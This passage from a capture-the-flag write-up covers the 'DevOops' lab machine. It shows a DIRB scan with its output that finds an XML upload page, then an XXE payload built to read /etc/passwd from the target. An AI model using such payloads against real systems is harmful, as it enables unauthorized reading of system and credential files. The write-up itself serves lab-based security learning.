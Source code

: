 From Nmap scanning, we have enumerated port 22 and 5000 are only open ports on the target’s network, therefore firstly, let’s navigate to port 5000 through a web browser.  
By exploring the given URL, it puts up following web page as shown in the below image.  

![Port5000Devoops](https://hackingprofessional.github.io/HTB/assets/img/posts/Port5000Devoops.png "Web Page in the port 5000")  

Apparently we do not find anything interesting in the main page, we will continue making a directory discovery on the URL http://10.10.10.91:5000/ with DIRB.  

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/devoops]─[root@Arthorias]─[255]─[4441]
╰─[:)] # dirb http://10.10.10.91:5000

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Apr 19 02:57:38 2019
URL_BASE: http://10.10.10.91:5000/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.91:5000/ ----
+ http://10.10.10.91:5000/feed (CODE:200|SIZE:546263)                                                                                                
+ http://10.10.10.91:5000/upload (CODE:200|SIZE:347)                                                                                                 
                                                                                                                                                     
-----------------
END_TIME: Fri Apr 19 03:27:18 2019
DOWNLOADED: 4612 - FOUND: 2
```

From the results of DIRB, we managed to identify a URL that allows us to upload XML files.  
http://10.10.10.91:5000/upload  

![UploadFileDevoops](https://hackingprofessional.github.io/HTB/assets/img/posts/UploadFileDevoops.png "Upload File XML")  

# Exploiting XML External Entity (XXE)  

The following web page lets you upload an XML file, including XML elements Author, Subject and content.  

![passwdDevoops](https://hackingprofessional.github.io/HTB/assets/img/posts/UploadFileDevoops.png "Exploiting XML External Entity")  

For that reason, we have created an XML file with the help of the following code and saved as Attack.xml  

```xml
<?xml version="1.0"?>
  <!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >
  ]>
  <feed>
    <Author>Gerh</Author>
    <Subject>BinaryChaos</Subject>
    <Content>&xxe;</Content>
  </feed>
```
